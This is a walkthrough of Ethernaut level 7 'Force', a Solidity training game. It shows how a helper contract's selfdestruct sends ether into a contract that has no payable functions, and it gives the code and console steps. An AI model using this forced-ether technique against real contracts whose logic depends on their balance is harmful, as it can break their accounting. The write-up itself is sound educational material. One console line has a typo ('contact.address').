 # Level 7: Force

This is the level 7 of [Ethernaut](https://ethernaut.openzeppelin.com/) game.

## Pre-requisites
- [selfdestruct](https://docs.soliditylang.org/en/v0.6.0/units-and-global-variables.html#contract-related) function in Solidity

## Hack

Given contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```

`player` has to somehow make this empty contract's balance grater that 0.

Simple `transfer` or `send` won't work because the `Force` implements neither `receive` nor `fallaback` functions. Calls with any value will revert.

However, the checks can be bypassed by using `selfdestruct` of an intermediate contract - `Payer` which would specify `Force`'s address as beneficiary of it's funds after it's self-destruction.

First off make a soon-to-be-destroyed contract in Remix:

```Solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Payer {
    uint public balance = 0;

    function destruct(address payable _to) external payable {
        selfdestruct(_to);
    }

    function deposit() external payable {
        balance += msg.value;
    }
}
```

Send a value of say, `10000000000000 wei` (0.00001 eth) by calling `deposit`, so that `Payer`'s balance increases to same amount.

Get instance address of `Force` in console:

```javascript
contact.address

// Output: <your-instance-address>
```

Call `destruct` of `Payer` with `<your-instance-address>` as parameter. That's destroy `Payer` and send all of it's funds to `Force`. Verify by:

```javascript
await getBalance(contract.address)

// Output: '0.00001'
```

Level cracked!

_Learned something awesome? Consider starring the [github repo](https://github.com/theNvN/ethernaut-openzeppelin-hacks)_ 😄

_and following me on twitter [here](https://twitter.com/the_nvn)_ 🙏

